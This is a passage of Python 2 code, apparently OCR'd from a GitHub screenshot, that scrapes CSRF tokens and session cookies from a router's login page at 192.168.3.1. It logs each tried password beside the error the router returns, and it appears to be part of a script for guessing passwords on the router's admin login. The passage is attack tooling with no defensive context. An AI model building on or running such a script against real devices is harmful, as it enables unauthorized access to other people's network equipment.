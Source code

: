     	key_param = r"<meta name=\"csrf_param\" content=\".+\"/>"
    	key_token = r"<meta name=\"csrf_token\" content=\".+\"/>"
    	pattern_key_param = re.compile(key_param)
    	pattern_token_param = re.compile(key_token)
    
    	key_param_str = pattern_key_param.findall(res_str)[0];
    	key_token_str = pattern_token_param.findall(res_str)[0];
    
    
    	key_cnt_s = "content=\"";
    	key_cnt_e = "\"/>";
    
    	param_start = key_param_str.find(key_cnt_s);
    	param_end = key_param_str.find(key_cnt_e);
    	g_csrf_param = key_param_str[param_start+len(key_cnt_s):param_end];
    
    	token_start = key_token_str.find(key_cnt_s);
    	token_end = key_token_str.find(key_cnt_e);
    	g_csrf_token = key_token_str[token_start+len(key_cnt_s):token_end];
    
    	pass;
    
    
    def get_cookie_str(res_info):
    
    	global g_cookie_str;
    
    	t_cookie_index = str(res_info['Set-Cookie']).find(';');
    	t_cookie = res_info['Set-Cookie'][0:t_cookie_index];
    	g_cookie_str = t_cookie + ';'
    
    	pass;
    
    def parse_result(pass_str,rst_str,fd_other):
    
    	# {"errorCategory":"
    	error_param = "\"errorCategory\":\".+\","
    	pattern_error_param = re.compile(error_param);
    	last_ = pattern_error_param.findall(rst_str);
    
    	if( len(last_) > 0 ):
    		out_str = '[' + 'password:' + pass_str + '];' + last_[0] + '\n';
    	else:
    		out_str = '****[' + 'password:' + pass_str + '];' +rst_str + '\n';
    		fd_other.write(out_str);
    
    	print out_str
    	return out_str;
    
    	pass;
    
    def get_some_info():
    
    	index_url = 'http://192.168.3.1';
    	c_headers = {}
    	c_headers['User-Agent'] = 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36'
    